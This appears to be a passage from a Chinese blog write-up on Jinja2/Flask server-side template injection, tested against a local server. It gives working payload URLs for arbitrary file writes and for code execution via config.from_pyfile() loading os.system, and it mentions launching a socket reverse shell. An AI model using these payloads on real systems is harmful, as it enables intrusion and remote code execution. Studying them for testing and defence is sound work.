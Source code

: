 #### 写shell

也可以通过`open()`函数的`write()`方法向文件中写入shell

<img src='https://0xfay.github.io/public/image/103446.png'>

payload为:(自行修改)

`http://127.0.0.1:5000/login?name={{%27%27.__class__.__mro__[1].__subclasses__()[145].__init__.__globals__[%27__builtins__%27][%27open%27](%27d:/1.txt%27,%27w%27).write(%27hacked%27)}}`

诸如此类。





#### rce(影逝二度)

绝了，找到个神奇的方法，config类中的`from_pyfile()`可以向config类中引入一个文件，将其中代码按照python执行(不需要一定为py后缀的文件。)。于是我们引入一个引入os模块中的system函数的文件

```
from os import system
SHELL = system

```

`http://127.0.0.1:5000/login?name={{config.from_pyfile(%27d:/1.txt%27)}}`

<img src='https://0xfay.github.io/public/image/224400.png'>

可以看到，config类里已经有了名为shell的system函数

<img src='https://0xfay.github.io/public/image/224725.png'>

再调用该函数去执行命令，可以看到，能执行成功(system)

<img src='https://0xfay.github.io/public/image/224557.png'>

另外，config中不止有`from_pyfile()`，诸如`from_object()`可以引入一个类，`from_json`可以引入一个json文件(也是文件格式即可)，`from_envvar`调用环境变量。





#### rce(三回啊三回)

基于上面的`from_pyfile()`方法试了试直接引入shell执行。我环境在windows所以用的基于socket的python写的shell。

超有意思，页面一直处于加载状态，说明后台的服务端运行成功

<img src='https://0xfay.github.io/public/image/180719.png'>

跑了哈客户端的脚本，运行成功

<img src='https://0xfay.github.io/public/image/180910.png'>


<br>
<br>
